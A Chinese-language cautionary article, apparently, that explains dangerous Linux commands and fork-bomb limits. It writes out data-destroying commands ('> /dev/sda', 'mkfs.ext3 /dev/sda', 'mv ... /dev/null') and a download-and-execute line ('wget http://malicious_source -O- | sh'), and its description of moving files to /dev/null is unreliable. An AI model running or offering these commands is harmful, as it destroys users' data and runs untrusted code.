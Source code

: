 由于fork炸弹透过不断的开新进程来瘫痪系统，一个防止其严重影响系统的方法就是限定一个用户能够创建的进程数的上限，在Linux系统上，可以透过ulimit这个指令达到相应的效果，例如： `ulimit -Hu 30` 这个指令可以限制每一个用户最多只能创建30个进程，还可以通过修改配置文件`/etc/security/limits.conf`来限制可生成的最大进程数来避开这枚炸弹。而FreeBSD系统的话系统管理者可以在`/etc/login.conf`底下的配置文件进行相关的设置

# > /dev/sda

这个命令会将某个‘命令‘的输出写到块设备/dev/sda中。

该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。

# mv 文件夹 /dev/null

这个命令会移动某个‘文件夹‘到/dev/null。

在Linux中 /dev/null 或 null 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。

当然，要说明的是这个命令并不能阻止数据恢复软件——所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成。

```
mv /home/root/* /dev/null
```

# wget http://malicious_source -O- | sh

该命令会从一个（也许是）恶意源下载一个脚本并执行。

wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。

注意: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。

# mkfs.ext3 /dev/sda

上列命令会格式化块设备‘sda’，在执行这个命令后你的块设备(硬盘驱动器)会被格式化，直接让你的系统达到不可恢复的阶段。

通常我们不会直接使用/dev/sda这样的设备，除非是作为raw设备使用。

一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。

# > file

这个命令常用来清空文件内容或记录命令输出。

不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。

你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。

如果用上列执行时输入错误或无知的输入类似 “> xt.conf”　的命令会覆盖配置文件或其他任何的系统配置文件。

# ^foo^bar

这个命令用来编辑先前运行的命令而无需重打整个命令。

用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。
